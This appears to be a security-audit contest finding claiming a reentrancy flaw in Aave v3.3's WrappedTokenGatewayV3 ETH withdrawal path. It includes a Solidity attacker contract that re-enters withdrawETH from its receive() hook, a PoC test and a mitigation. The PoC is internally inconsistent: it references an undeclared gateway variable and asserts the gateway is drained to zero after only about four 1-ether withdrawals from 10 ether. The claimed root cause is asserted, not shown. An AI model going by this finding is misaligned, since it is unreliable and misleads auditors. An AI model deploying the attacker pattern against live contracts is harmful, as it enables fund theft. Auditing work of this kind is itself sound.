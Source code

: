 Fast Scarlet Beaver

High

# Attackers can steal funds through reentrancy in ETH transfers

### Summary

Lack of `reentrancy protection in _safeTransferETH` will cause fund theft as malicious contracts can reenter during ETH transfers and perform multiple withdrawals.



### Root Cause

In src/contracts/helpers/WrappedTokenGatewayV3.sol#152-155 (https://github.com/sherlock-audit/2025-01-aave-v3-3/blob/main/aave-v3-origin/src/contracts/helpers/WrappedTokenGatewayV3.sol#L152-L155)  the `_safeTransferETH` function lacks reentrancy protection:


### Internal Pre-conditions

1. Contract must have ETH balance
2. Attacker must deploy contract with malicious `receive()`


### External Pre-conditions

_No response_

### Attack Path

1. Attacker deploys malicious contract
2. Initiates withdrawal to malicious contract
3. Malicious contract reenters during ETH transfer
4. Multiple withdrawals occur before state updates

### Impact

1. Protocol can lose entire ETH balance
2. Multiple withdrawals possible in single transaction

### PoC

```solidity
contract ReentrancyAttacker {
    WrappedTokenGatewayV3 public gateway;
    uint256 public attackCount;
    
    constructor(address _gateway) {
        gateway = WrappedTokenGatewayV3(_gateway);
    }
    
    function attack(uint256 amount) external {
        gateway.withdrawETH(address(0), amount, address(this));
    }
    
    receive() external payable {
        if(attackCount < 3) {
            attackCount++;
            // Reenter during ETH transfer
            gateway.withdrawETH(address(0), msg.value, address(this));
        }
    }
}

contract ReentrancyPoC {
    function testReentrancyAttack() public {
        // Setup
        ReentrancyAttacker attacker = new ReentrancyAttacker(address(gateway));
        vm.deal(address(gateway), 10 ether);
        
        // Execute attack
        attacker.attack(1 ether);
        
        // Verify multiple withdrawals
        assertGt(address(attacker).balance, 3 ether);
        assertEq(address(gateway).balance, 0);
    }
}
```

### Mitigation

```solidity
contract WrappedTokenGatewayV3 is ReentrancyGuard {
    function withdrawETH(
        address token,
        uint256 amount,
        address to
    ) external nonReentrant {
        // Existing logic
    }
    
    function _safeTransferETH(address to, uint256 value) internal {
        (bool success, ) = to.call{value: value}(new bytes(0));
        require(success, 'ETH_TRANSFER_FAILED');
    }
}
```